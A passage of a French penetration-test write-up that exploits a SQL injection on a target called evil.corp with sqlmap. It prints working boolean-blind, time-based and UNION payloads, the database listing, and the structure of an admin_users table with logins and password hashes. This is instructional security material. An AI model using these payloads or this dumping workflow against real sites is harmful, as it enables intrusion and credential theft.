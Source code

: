 Entre une injection en aveugle basée sur le temps de réponse et une injection non-aveugle de type `UNION` le choix est vite fait.  

Je préfère abandonner un peu de discrétion et pouvoir dumper rapidement des tables plutôt qu'être en mode ninja de l'apocalypse et parvenir à dumper une table en 3 semaines avec des erreurs :p  

Je fini par faire mon choix parmi les scripts vulnérables :  

![Wapiti report SQL injection on evil.corp](/assets/img/pentest01/evilcorp_sql_injection.png)

Je lance [sqlmap](http://sqlmap.org/) sur l'URL vulnérable qui est exploitable via différentes techniques.  

```console
$ sqlmap.py -u "http://evil.corp/products/?keyword=&category=1" --random-agent -p category

---
Parameter: category (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: keyword=&category=1 AND 4994=4994

    Type: AND/OR time-based blind
    Title: MySQL time-based blind - Parameter replace (MAKE_SET)
    Payload: keyword=&category=MAKE_SET(2846=2846,SLEEP(5))

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: keyword=&category=1 UNION ALL SELECT NULL,NULL,CONCAT(0x71766b7071,0x507a72574e695348556a5556736b55794d4a7361626b7663416e7a6f6f62734a434c767247495773,0x716a766a71),NULL,NULL,NULL,NULL,NULL-- Hz
oF
---
web application technology: Apache 2.4.4
back-end DBMS: MySQL 5
available databases [4]:
[*] evilcorp_db
[*] information_schema
[*] mysql
[*] performance_schema
```

Parmi les tables de `evilcorp_db` (obtenues avec `sqlmap via -D evilcorp\_db --tables`) on trouve une table *admin\_users* qui nous promet des merveilles.  

```plain
Table: admin_users
[7 columns]
+------------+--------------+
| Column     | Type         |
+------------+--------------+
| privileges | int(11)      |
| id_user    | int(11)      |
| login      | varchar(255) |
| mail       | varchar(255) |
| name       | varchar(255) |
| pwd        | varchar(64)  |
| role       | tinyint(4)   |
+------------+--------------+
```